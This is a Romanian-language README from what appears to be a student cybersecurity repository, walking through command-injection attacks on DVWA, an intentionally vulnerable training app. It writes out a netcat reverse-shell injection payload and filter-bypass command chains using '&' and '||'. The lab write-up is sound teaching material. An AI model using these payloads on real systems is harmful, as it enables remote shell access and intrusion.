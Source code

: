 ### Atac HTTP:
  - [Despre HTTP / HTTPS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_http_https.md)
  - In scop didactic, am folosit **DVWA** (Damn Vulnerable Web App). Pentru instalare si informatii aditionale: [link](https://github.com/digininja/DVWA).
  - Cuprins:
    - Command Execution
    - CSRF
    - File Inclusion
    - SQL Injection
    - SQL Injection(Blind)
    - Upload
    - XSS reflected
    - XSS stored  
 
## **Command Execution**
   - [Despre Command Injection](https://github.com/Dani780-C/Cyber-security/blob/main/learn/command_injection.md)
   - **Not hacked:** *introducem orice adresa IP (ex: 192.168.56.101)*  
   
     Raspuns:  
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_execution_normal.png)  
     Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_execution_low_nothacked.pcapng)  
   - **Hacked:**  
   
     **LOW**  
        - Sursa codului PHP:  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/source_code_low_command_execution.png)  
        
        Pentru ca nu avem niciun fel de validare pe input-ul form-ului, putem scrie orice adresa IP urmat de `;` sau `&&`.  
        De exemplu, executia unui reverse shell: intr-un terminal separat se va executa un listener `nc -lvp 4444`, iar in form-ul aplicatiei se va introduce `192.168.56.101; nc -e /bin/bash 192.168.56.101 4444`  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_reverse_shell.png)  
        
        Captura trafic: [download](https://github.com/Dani780-C/Cyber-security/blob/main/captures/dvwa_command_injection_reverse_shell.pcapng)  
       
     **MEDIUM**  
        - Sursa codului PHP:  
         
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_source_code_medium.png)  
        
        Codul PHP respectiv va inspecta string-ul primit din form si va scoate `;` si `&&`. Daca vom scrie `192.168.56.101; ls` nu se va executa comanda. Daca vom scrie `&` vom pune comanda `ping <adresa IP>` in background si astfel se va rula si urmatoarea comanda inlantuita in string-ul input-ului. De exemplu, vom introduce `192.168.56.101 & hostname & ls & pwd`. De asemenea, putem scrie `<orice string, dar nu o adresa IP valida> || ls`.  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_medium_1.png)  
        
        ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/dvwa_command_injection_2.png)  
        
## **SQL Injection**
  - [Despre SQL Injection](https://github.com/Dani780-C/Cyber-security/blob/main/learn/sql_injection.md)  
